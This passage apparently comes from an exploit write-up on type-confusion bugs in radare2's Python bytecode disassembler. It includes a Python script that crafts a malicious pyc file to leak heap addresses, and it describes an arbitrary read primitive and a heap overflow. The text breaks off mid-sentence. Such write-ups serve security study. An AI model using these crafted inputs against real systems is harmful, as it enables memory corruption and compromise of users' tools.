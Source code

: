 The second usage exists in the `LOAD_CONST` opcode and it also exists in `pyc_disasm.c`. Its root cause is that the disassembly module asserts the variable `consts` to be a python list object, where it can actually be anything: a float, string, ref... By faking a list object, we can obtain an arbitrary read primitive.

```c
 case LOAD_CONST:
        t = (pyc_object*)r_list_get_n (consts, oparg);
```

The third usage needs more analysis, so it will be mentioned in the exploit analysis. But to jump to the conclusion, it is a very stable heap buffer overflow.

## Infoleaks
We first use the two bugs to leak heap, libc and other 'juicy' addresses. The first bug is easy to exploit. By making a pyc file like the following we can leak a heap address.

```python
magic = 0x0a0df303
date = 0
pay = p32(magic) + p32(date)
# a code object
pay += b"c"
# argsize nlocals stacksize flags
pay += p32(0) + p32(0) + p32(0) + p32(0)
# code
code = p8(116) + p32(0)
pay += string_object(code)
# consts, names, varnames, freevars, cellvars, filename, name
pay += string_object(b"x") 
pay += list_object([list_object([string_object(b"z")])])
pay += string_object(b"x") * 5
# firstlineno
pay += p32(0)
pay += string_object(b"x")
```

The variable, `names` is not a list object containing a list object. So, `r_list_get_n (names, 0)` will return a list object containing a string object. Therefore, `t->data` will be an `RList` structure pointer which looks like the following.

```c
typedef struct r_list_t {
    RListIter *head;
    RListIter *tail;
    RListFree free;
    int length;
    bool sorted;
} RList;
```

So the `head` field will be leaked, which is most likely a heap pointer.

To exploit the second bug, we need to place user controlled data at a known address. This is easy, because we have a heap leak due to the first bug. Then we make the `consts` variable a string whose value is p64(POINTER) where 
